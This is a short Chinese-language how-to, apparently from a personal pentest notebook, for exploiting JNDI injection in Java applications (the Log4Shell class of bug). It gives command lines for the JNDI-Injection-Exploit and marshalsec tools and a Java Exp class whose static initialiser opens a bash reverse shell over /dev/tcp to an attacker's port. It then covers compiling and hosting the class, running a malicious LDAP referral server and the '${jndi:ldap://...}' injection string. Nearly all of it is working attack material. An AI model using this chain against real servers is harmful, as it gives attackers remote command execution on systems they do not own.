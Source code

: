 
JNDI注入工具：

JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit -C "command" -A 127.0.0.1
```



marshalsec-jar

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefserver "http://ip/#EXp" 1389
```

需要准备包含恶意代码的exp.java文件

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exp {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/ip/9999 0>&1"};
            //linux
            Process pc = rt.exec(commands);
            //Process pc = rt.exec(command: "calc"); windows
            pc.waitFor();
        } catch (Exception e) {
            //do nothing
        }
    }
}
```

将以上代码使用`javac` exp.java编译生成exp.class

将生成的类放到搭建的web根目录中 例如`httpS://127.0.0.1/exp.class`

使用工具marshalsec-jar

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefserver "http://127.0.0.1/#eXp" 1389
```

注：无.class，有.class将会报错 #为标识元素名

则会服务器会开启1389端口服务，且加载了exp的类

去注入点：`${jndi:ldap://127.0.0.1:1389/exp}`即可利用
